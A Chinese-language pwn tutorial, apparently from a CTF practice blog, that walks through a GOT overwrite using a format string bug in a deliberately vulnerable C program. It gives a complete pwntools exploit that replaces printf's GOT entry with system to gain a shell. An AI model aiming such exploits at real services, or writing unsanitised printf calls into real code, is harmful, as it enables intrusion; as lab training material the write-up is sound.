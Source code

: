 ```yaml
---
title: '利用 GOT Overwrite'
date: '2023-08-28'
lastmod: '2023-08-29'
tags: ['PWN', 'Stack']
draft: false
summary: '使用格式化字符串漏洞覆盖 GOT 表 get shell'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

## 0x01 源码

LINK

这可能是 GOT Overwrite 题中最简单的一个了。

```c:source.c
#include <stdio.h>

void vuln() {
  char buffer[300];

  while(1) {
    fgets(buffer, sizeof(buffer), stdin);

    printf(buffer);
    puts("");
  }
}

int main() {
  vuln();

  return 0;
}
```

一个简单的无限循环接收用户的输入，并用 `printf` 将其输出。这里不存在缓冲区溢出，只有格式化字符串漏洞。

现在假设关闭了 ASLR，可以先自己试一试利用 GOT Overwrite 漏洞进行覆写 :)

## 0x02 漏洞利用

先设置好基本框架。

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7c00000

p = process()
```

为了利用 `%n` 覆盖 GOT 表，我们需要找到格式化字符串读取到我们输入的缓冲区开始的偏移量。

```
$ ./got_overwrite-32
%p %p %p %p %p %p
0x12c 0xf7e445c0 0x8049191 0x40 0x25207025 0x70252070
```

可以确定是第五个位置。接下来获取该位置的地址：

```
$ ./got_overwrite-32
%5$p
0x70243525
```

完善 exp。

```python
payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})

p.sendline(payload)

p.interactive()
```

这样就覆写成功了。如果缓冲区受到限制，你可以发送 `/bin/sh` 获得 shell 并运行更多命令。

### 1x01 最终 Exploit

```python:exp.py
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7c00000

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})

p.sendline(payload)

p.interactive()
```

## 0x03 64-bit

老样子 :)

LINK

## 0x04 ASLR 版本

如果你想要额外的挑战，这里请启用 ASLR 并尝试解下面的题目。

LINK

